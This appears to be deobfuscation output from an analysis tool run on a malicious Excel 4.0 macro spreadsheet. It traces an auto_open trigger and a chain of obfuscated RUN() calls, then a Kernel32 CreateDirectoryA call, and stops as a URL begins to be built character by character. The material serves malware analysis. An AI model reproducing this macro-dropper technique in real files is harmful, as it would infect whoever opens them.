 Encrypted xls file
[Loading Cells]
auto_open: auto_open->'SOCWNEScLLxkLhtJp'!$A$1275
[Starting Deobfuscation]
CELL:A1275     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AQ1566)
CELL:AQ1566    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FA465)
CELL:FA465     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FH1915)
CELL:FH1915    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FC1813)
CELL:FC1813    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DK1306)
CELL:DK1306    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CS1847)
CELL:CS1847    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AZ1680)
CELL:AZ1680    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!II1522)
CELL:II1522    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AJ1716)
CELL:AJ1716    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AK568)
CELL:AK568     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!IA427)
CELL:IA427     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EX704)
CELL:EX704     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AP1045)
CELL:AP1045    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!BV1741)
CELL:BV1741    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FA643)
CELL:FA643     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EF403)
CELL:EF403     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AW583)
CELL:AW583     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!HX1412)
CELL:HX1412    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FN1386)
CELL:FN1386    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CP670)
CELL:CP670     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DL1047)
CELL:DL1047    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!B334)
CELL:B334      , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AN828)
CELL:AN828     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CZ1597)
CELL:CZ1597    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!Z1448)
CELL:Z1448     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DE1701)
CELL:DE1701    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!BK1136)
CELL:BK1136    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!IH1674)
CELL:IH1674    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!IM1698)
CELL:IM1698    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DH11)
CELL:DH11      , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!BL779)
CELL:BL779     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EJ495)
CELL:EJ495     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EO1687)
CELL:EO1687    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DJ751)
CELL:DJ751     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!P1730)
CELL:P1730     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!HV1557)
CELL:HV1557    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FB535)
CELL:FB535     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FU1236)
CELL:FU1236    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AQ1843)
CELL:AQ1843    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!GC707)
CELL:GC707     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EM899)
CELL:EM899     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FN980)
CELL:FN980     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!ID523)
CELL:ID523     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!ED1660)
CELL:ED1660    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FU1053)
CELL:FU1053    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CS1849)
CELL:CS1849    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FN249)
CELL:FN249     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CZ549)
CELL:CZ549     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FE877)
CELL:FE877     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EA10)
CELL:EA10      , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!BW1860)
CELL:BW1860    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EK740)
CELL:EK740     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DW1335)
CELL:DW1335    , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\jhbtqNj",0)
CELL:DW1336    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FR1805)
CELL:FR1805    , FullEvaluation      , h
CELL:FR1806    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EK266)
CELL:EK266     , FullEvaluation      , t
CELL:EK267     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EE1306)
CELL:EE1306    , FullEvaluation      , t